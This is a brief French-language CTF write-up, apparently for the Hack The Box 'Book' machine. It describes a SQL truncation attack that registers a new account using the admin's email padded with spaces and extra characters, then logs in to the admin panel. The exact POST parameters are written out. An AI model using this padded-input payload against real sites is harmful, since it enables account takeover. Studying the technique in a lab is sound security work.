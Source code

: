 # SQL Truncation
on s'enrigistre avec le meme mail que l'admin suivit d'espace et de quelques chars.
comme seul les prmiers caractères sont dans la base ont peut s'authentifier avec le compte admin: 

## mail de l'admin:
admin@book.htb

#register POST lors de la cration du nouvel user:
name=admin%20%20%20%20%20%20%20%20aa&email=admin%40book.htb%20%20%20%20%20%20aa&password=azerty

## login sur l'interface d'admin:
http://10.10.10.176//admin/

## parametres post lors du login:
email=admin%40book.htb&password=azerty


